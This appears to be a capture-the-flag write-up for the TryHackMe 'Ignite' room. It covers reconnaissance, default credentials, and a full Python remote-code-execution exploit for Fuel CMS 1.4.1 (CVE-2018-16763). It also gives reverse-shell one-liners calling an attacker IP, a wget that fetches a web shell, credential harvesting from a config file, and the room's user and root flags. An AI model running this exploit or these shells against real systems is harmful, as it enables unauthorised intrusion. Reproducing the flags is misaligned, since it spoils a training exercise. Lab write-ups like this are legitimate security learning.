 ```yaml
---
description: 'https://tryhackme.com/room/ignite'
---
```


# Ignite

## INIT

```text
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```text
nmap -sC -sV -O $ignite
```

![](../.gitbook/assets/image%20%28443%29.png)

## GOBUSTER

```text
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28377%29.png)

## HTTP

![](../.gitbook/assets/image%20%28415%29.png)

![](../.gitbook/assets/image%20%28437%29.png)

![](../.gitbook/assets/image%20%28397%29.png)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](../.gitbook/assets/image%20%28412%29.png)

![](../.gitbook/assets/image%20%28376%29.png)

```text
searchsploit Fuel
searchsploit -p 47138
```

![](../.gitbook/assets/image%20%28432%29.png)

```text
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

```text
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib
import urllib.parse

url = "http://10.10.39.95"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])

```

![](../.gitbook/assets/image%20%28383%29.png)

```text
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](../.gitbook/assets/image%20%28408%29.png)

```text
cmd:bash shell.sh
```

![](../.gitbook/assets/image%20%28429%29.png)

```text
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](../.gitbook/assets/image%20%28404%29.png)

![](../.gitbook/assets/image%20%28419%29.png)

![](../.gitbook/assets/image%20%28391%29.png)

![](../.gitbook/assets/image%20%28423%29.png)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../.gitbook/assets/image%20%28418%29.png)

```text
 cat /var/www/html/fuel/application/config/database.php
```

![](../.gitbook/assets/image%20%28433%29.png)

```text
su -
password: mememe
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28414%29.png)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}

